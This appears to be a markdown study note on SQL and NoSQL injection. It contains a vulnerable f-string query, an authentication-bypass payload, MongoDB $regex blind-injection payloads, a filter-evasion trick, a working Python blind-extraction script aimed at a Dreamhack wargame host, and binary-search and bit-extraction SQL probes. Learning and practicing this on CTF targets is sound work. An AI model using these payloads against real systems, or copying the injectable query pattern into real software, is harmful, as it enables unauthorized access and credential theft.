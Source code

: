 ## RDBMS : Relational Database Management System

> RDBMS has limit of capacity because it use second-dementional table.

## NRDBMS : Non - RDBMS (NoSQL)

#### NoSQL also generate query dynamically -> sqli can cause.

#### NoSQL use key-value storing method while RDBMS use TABLE. -> Optimized store capacity.

<br/>

# SQL injection : in raw query which created dynamically

## If you want to create RawQuery dynamically, use Prepared Statement and Object Relational Mapping

> Prepared Statement : during taking dynamic query, it analyze query itself and then regenerate safe query.

### example of raw query code )

```py
res = query_db(f'select * from users where userid="{userid}" and userpassword = "{userpassword}"')
```

In this code, the query generated including user's input so that sqli can evoke.

### example of exploit of this code )

```sql
admin" --
```

in form of userid we can use this exploit to login for admin

## NoSQL injection : same with normal sqli except the point that NoSQL has different syntax.

```js
app.get('/query', function(req,res) {
    db.collection('user').findOne({
        'uid': req.body.uid,
        'upw': req.body.upw
    }, function(err, result){
        if (err) throw err;
        console.log(result);
        if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
```

in this code, we can use sqli.

```sql
#blind sqli
{"uid": "admin", "upw": {"$regex":".{5}"}}
{"uid": "admin", "upw": {"$regex":"^a"}}
{"uid": "admin", "upw": {"$regex":"^aa"}}
{"uid": "admin", "upw": {"$regex":"^ab"}}
...
{"uid": "admin", "upw": {"$regex":"^apple$"}}
```

this is the repeat of substitution.

> $regex : select document which corresponds with regular expression
<br/>

## SQL Features

#### `UNION` : Link multiple `select`

> Cautions : <li> Result of each linked `select` should have same number of columns. </li>
>
> <li> The data type of each linked `select` should same with each other.(applied only some dbms like mssql) </li>

#### `Subquery` : usage of inner query in a query.

> We can access other table the query not take, by use it. Also, we can use `select` where it is not used.  
> Cautions :
>
> <li> Result of subquery should return __single row__ and __single column__ in the `columns` clause </li>  
> <li> Result of subquery can return __multiple row__ and __multiple columns__ in the `FROM` cluase</li>  
> <li> Result of subquery can return __multiple row__ in the `WHERE` clause</li>

#### `Applicaiton Logic`

> by analyzing logic of web application, we can attack with `union`, `if()` and etc.... <- whether logic has output or not is very important to us.
<br/>

# Below exercise is set to MongoDB.

### It has filter like below.

#### filter )

```js
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
#It returns True if banned keyword is included in your input.
```

### But keyword filtering system is not secure. We can use sqli untill the fundamental vulerabililty exists.

> filtering is easily paralyzed by using regular expression "." that mean every character. ex) admin -> ad.in , DH{ -> D.{

### Here is the exploit code use blind sqli )

```py
import requests, string

HOST = 'http://host3.dreamhack.games:13265'
SUCCESS = 'admin'
ALPHANUMERIC = string.digits + string.ascii_letters

i = 1
while True:
    res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=.{{{i}}}')
    if res.text == SUCCESS:
        i += 1
    else:
        i -= 1
        break;
print(f'length of password : {i}')

flag = ''
for k in range(i-4):
    for ch in ALPHANUMERIC:
        res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=D.{{{flag}{ch}')
        if res.text == SUCCESS:
            flag += ch
            break

print(f'flag : DH{{{flag}}}')
```

first, code find the length of the password and then, using for loop with range(LENGTH OF PWD), find flag by repeating substition.
<br/>

## ExploitTech : blind sqli advanced

#### Binary Search : **_Binary Search based on a assumtion that data is sorted._** Set range(n,m). As example, let range as (0,100). This method compare target data with middle-orderd data, and regenerate data range (0,50) if target <= middle else range(51, 100). repeat it so that target be captured

> example
>
> ```sql
> mysql> select * from users where username='admin' and ascii(substr(password, 1, 1))>79;
> /* This exploit compare first word of password with ascii_middle_value:79 */
> ```

#### Bit Calculation : ascii letter can express range from 0 to 127 so that we can express it also with 7 bit. By using repeat of exploit statement including useful function like `bin` and `substr`, we can find password

> example
>
> ```sql
> mysql> select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;
> mysql> select * from users where username='admin' and substr(bin(ord(password)),2,1)=1;
> ...
> mysql> select * from users where username='admin' and substr(bin(ord(password)),7,1)=1;
> ```
